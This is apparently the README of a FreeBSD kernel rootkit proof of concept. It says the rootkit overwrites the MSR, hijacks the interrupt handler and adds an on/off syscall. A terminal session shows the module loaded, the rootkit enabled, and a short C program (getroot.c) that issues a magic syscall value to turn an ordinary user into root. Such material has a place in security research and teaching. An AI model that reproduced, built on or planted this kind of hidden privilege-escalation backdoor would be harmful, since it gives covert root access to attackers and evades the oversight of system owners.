 This is a POC for a *rootkit* that I wrote a long time ago that overwrites the MSR and hijack the interrupt handler in order to provide a 'hidden' way to escalate the privileges. Additionally, the rootkit adds a new syscall that was created to handle the rootkit. This new syscall receives one argument, 1 or 0, enabling or disabling the rootkit.

Demonstration:
```
$ uname -a
FreeBSD rootkit 10.0-RELEASE FreeBSD 10.0-RELEASE #5: Wed Nov 26 17:05:04 BRT 2014     andersonc0d3@rootkit:/usr/obj/usr/src/sys/DEBUG  amd64
$ cat /etc/master.passwd
cat: /etc/master.passwd: Permission denied
$ id
uid=1001(andersonc0d3) gid=1001(andersonc0d3) groups=1001(andersonc0d3),0(wheel)
$ kldstat -v|grep rk.ko
 7    1 0xffffffff81a63000 2a0      rk.ko (./rk.ko)
$ perl -e 'syscall(210,1)'
$ cd rootkit_amd64
$ cat getroot.c
#include <stdio.h>
#include <stdlib.h>

int main(void){
	
	printf("uid: %d\n",getuid());

	asm("mov $0x31337,%rax");
	asm("syscall");

	return 0;
}
$ ./getroot
uid: 1001
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
$
```
